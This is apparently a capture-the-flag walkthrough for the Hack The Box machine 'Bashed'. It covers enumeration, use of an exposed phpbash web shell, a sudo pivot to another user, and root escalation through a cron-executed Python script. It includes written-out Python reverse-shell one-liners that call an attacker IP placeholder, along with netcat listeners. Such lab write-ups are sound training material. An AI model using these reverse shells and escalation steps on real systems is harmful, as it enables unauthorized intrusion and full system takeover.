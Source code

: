 Target:10.10.10.68

## Enumeration

nmap
```
$ sudo nmap -sC -sV 10.10.10.68       

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-19 23:47 PDT
Nmap scan report for 10.10.10.68
Host is up (0.13s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.68/FUZZ

uploads                 [Status: 301, Size: 312, Words: 20, Lines: 10]
php                     [Status: 301, Size: 308, Words: 20, Lines: 10]
images                  [Status: 301, Size: 311, Words: 20, Lines: 10]
css                     [Status: 301, Size: 308, Words: 20, Lines: 10]
dev                     [Status: 301, Size: 308, Words: 20, Lines: 10]
js                      [Status: 301, Size: 307, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 310, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]
```

checking 10.10.10.68
![index](bashed1.png)

checking single
![single.html](bashed2.png)

checking /dev
![/dev](bashed3.png)

### Findings:Looking for attack vectors


Got shell in /dev


## Foothold:

checking /dev/phpbash
![/dev/phpbash](bashed4.png)

```
www-data@bashed:/var/www/html/dev# id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

enumerating users
```
www-data@bashed:/var/www/html# cat /etc/passwd | grep sh

root:x:0:0:root:/root:/bin/bash
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
```

checking /home/arrexel
![/home/arrexel](bashed5.png)

```
cat user.txt

<redacted>
```


## Lateral Movement:

```
www-data@bashed:/home/arrexel# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL


www-data@bashed:/home/arrexel# sudo -u scriptmanager bash

sudo: no tty present and no askpass program specified
```

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

establishing a proper shell
```
www-data@bashed:/home/arrexel# python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

upgrading shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
www-data@bashed:/home/arrexel$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

switching user
```
www-data@bashed:/home/arrexel$ sudo -u scriptmanager bash

scriptmanager@bashed:/home/arrexel$ id

uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

## Priv Escalations:


looking for suspicious file/s
```
scriptmanager@bashed:/home/arrexel$ find / -user scriptmanager 2> /dev/null

/scripts
/scripts/test.py
<snip>

scriptmanager@bashed:/home/arrexel$ cd /scripts

scriptmanager@bashed:/scripts$ ls -la

total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 May 20 00:47 test.txt

scriptmanager@bashed:/scripts$ cat /scripts/test.py

f = open("test.txt", "w")
f.write("testing 123!")
f.close

scriptmanager@bashed:/scripts$ ls -la

total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 May 20 00:54 test.txt
```

The script test.py opens test.txt and write "testing 123!" and there seem to be a cronjob running


opening a nc listener on port 9002
```
$ nc -lnvp 9002
```

prepairing malicous python code
```
echo "import socket,subprocess,os;" >> test.py
echo "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);" >> test.py
echo "s.connect(("<ip>",9002));" >> test.py
echo "os.dup2(s.fileno(),0);" >> test.py
echo "os.dup2(s.fileno(),1);" >> test.py
echo "os.dup2(s.fileno(),2);" >> test.py
echo "p=subprocess.call(["/bin/sh","-i"]);" >> test.py
```

```
# id

uid=0(root) gid=0(root) groups=0(root
```

```
# cat /root/root.txt

<redacted>
```
